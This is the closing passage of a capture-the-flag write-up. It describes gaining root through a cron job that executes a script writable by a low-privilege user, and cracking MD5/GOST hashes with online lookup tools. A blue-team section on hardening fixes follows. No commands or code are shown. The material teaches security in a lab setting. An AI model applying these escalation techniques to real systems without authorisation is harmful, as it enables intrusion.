

> **Security Issue #4:** Root Cron Job Executing an Attacker-Writable Script. A scheduled task running with root privileges is only as trustworthy as the file it executes. Because `boring` could write to that script, anything placed inside it ran as root on the next tick. No exploit needed, just a permission that was never checked.

### Root Flag

`/root/.root.txt` gave up the final flag and closed out the room.



> **Flag 5 (root):** `<REDACTED>`

## Blue Team Perspective

Working back through this chain, here's what I think a defensive team would have caught, and where.

### 1. Content-Discovery Scanning Would Flag the Hidden Paths

Every "secret" directory in this room fell to a standard wordlist. Fix: run regular automated content-discovery scans against production hosts, and treat any unindexed, unauthenticated path serving real content as a finding, not a feature.

### 2. Hash and Secret Choices Need Review

MD5 and GOST digests protecting real secrets were reversed in seconds through free online lookup tools. Fix: use modern, salted hashing (bcrypt/argon2) for anything that actually needs to stay secret, and don't rely on hash type alone as protection.

### 3. File Permissions on Scheduled Tasks Need Auditing

The root cron job trusted a script writable by a non-root user, which is effectively a standing privilege-escalation path. Fix: anything invoked by a privileged cron job should be owned by root and writable only by root, with permissions checked as part of routine hardening reviews.

### 4. Credential Hygiene Across Storage Methods

The same working password was encoded, hidden in an image, and then reused as a live SSH credential. Fix: rotate credentials that have ever been exposed in any recoverable form, and don't reuse one password across a secret-storage mechanism and an actual system login.

---


This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I approach each challenge from both offensive and defensive perspectives, because understanding both sides is what makes a well-rounded security professional.

If you're also on the journey toward a SOC or Security Engineering role, feel free to connect — I'm always happy to discuss techniques and share resources.
